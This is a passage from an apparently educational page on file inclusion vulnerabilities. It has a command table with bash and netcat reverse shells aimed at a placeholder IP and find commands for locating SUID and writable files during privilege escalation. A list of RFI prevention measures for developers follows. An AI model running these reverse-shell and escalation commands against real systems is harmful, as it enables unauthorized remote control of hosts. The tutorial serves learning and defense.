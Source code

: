 | bash -i >& /dev/tcp/your-ip/port 0>&1 | A command used to begin a reverse shell via bash |
| nc -e /bin/sh your-ip port | A command used to begin a reverse shell via Netcat |
| find / -perm -4000 -type f 2>/dev/null | Finds SUID (Set User ID) files, useful in privilege escalation attempts as it can  sometimes be leveraged to execute binary with privileges of its owner (which is often root) |
| find / -writable -type  f 2>/dev/null | grep -v "/proc/" | Also helpful in privilege escalation attempts used to find files with writable permissions |

*Refer [The Hacker Recipes](https://www.thehacker.recipes/web/inputs/file-inclusion/) for more*

### Prevent RFI
As a developer, it's important to be aware of web application vulnerabilities, how to find them, and prevention methods. To prevent the file inclusion vulnerabilities, some common suggestions include:


1. Keep system and services, including web application frameworks, updated with the latest version.
2. Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
3. A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.
4. Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as allow_url_fopen on and allow_url_include.
5. Carefully analyze the web application and allow only protocols and PHP wrappers that are in need.
6. Never trust user input, and make sure to implement proper input validation against file inclusion.
7. Implement whitelisting for file names and locations as well as blacklisting.